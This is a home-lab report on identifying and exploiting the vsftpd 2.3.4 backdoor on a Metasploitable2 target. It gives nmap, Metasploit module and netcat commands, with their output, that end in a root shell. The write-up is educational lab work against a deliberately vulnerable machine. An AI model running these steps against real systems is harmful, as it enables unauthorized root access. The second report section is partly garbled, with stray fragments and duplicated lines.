 # 📊 Cybersecurity Home Lab - Report Template

## Lab Title: Exploiting FTP Backdoor Vulnerability (vsftpd 2.3.4)

### 🎯 Objective

Demonstrate identification and exploitation of a known FTP vulnerability (vsftpd 2.3.4) to achieve unauthorized remote shell access.

---

### 📍 Lab Environment

| Component        | Configuration                            |
| ---------------- | ---------------------------------------- |
| Attacker Machine | Kali Linux (VirtualBox, 2 CPUs, 4GB RAM) |
| Target Machine   | Metasploitable2 (Host-only Network)      |
| Network Setup    | Host-only Adapter + NAT for Kali         |

---

### 🔎 Vulnerability Details

| Property       | Value                                              |
| -------------- | -------------------------------------------------- |
| Service        | FTP                                                |
| Version        | vsftpd 2.3.4                                       |
| Port           | 21                                                 |
| CVE            | N/A (backdoor, not official CVE)                   |
| Exploit Module | `exploit/unix/ftp/vsftpd_234_backdoor`             |
| Description    | Malicious backdoor allows root shell via port 6200 |

Reference: [Rapid7 Module](https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor)

---

### 🛠️ Exploitation Steps

#### 1. Discovery - Nmap Scan

```bash
nmap -sV 192.168.56.102 -p 21
```

**Result**:

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
```

#### 2. Exploit with Metasploit

```bash
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.56.102
set RPORT 21
run
```

**Result**:

```
[*] 192.168.56.102:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 192.168.56.102:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.
```

#### 3. Manual Shell Access

```bash
nc 192.168.56.102 6200
whoami
```

**Result**:

```
root
```

---

### ✅ Outcome

* Successfully accessed root shell manually after exploit.
* Metasploit failed to open session but backdoor was live on port 6200.


### 📸 Screenshots

* Nmap scan result:(![Nmap_Scan](nmap_scan_result.png))
* Metasploit output and Netcat shell with 'root':(![metasploit_output](../screenshots/exploit_result.png))
* attacker network setup:(![attacker_net](../screenshots/attack-network-set.png))
* kali ping target :(![kali-ping](../screenshots/kali_ping_target.png))
* metasploitable network setup:(![metasploit_net](../screenshots/meta-network-set.png))
* metasploitable network setup:(![metasploit_net](../screenshots/meta-network-set.png))


---

---


# Lab Report – vsftpd 2.3.4 Backdoor

## Target Information

* Target IP: 192.168.56.102
* OS and Services (nmap result):

whoa*Result**:
root

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
```

## Vulnerability Details

* Vulnerability name: vsftpd 2.3.4 Backdoor
* Exploit used: Metasploit module + manual netcat connection
* CVE (if known): N/A (undocumented backdoor)

## Steps Taken

1. Scanned with Nmap
2. Identified vulnerable service (FTP vsftpd 2.3.4)
3. Exploited using Metasploit and Netcat

## Results

* Shell access: Yes (via port 6200)
* Screenshot:&#x20;

## Lessons Learned

* Always verify open ports post-exploit for manual access.
* Not all Metasploit exploits result in automated sessions.
* Critical to understand service versions and exploit behavior.
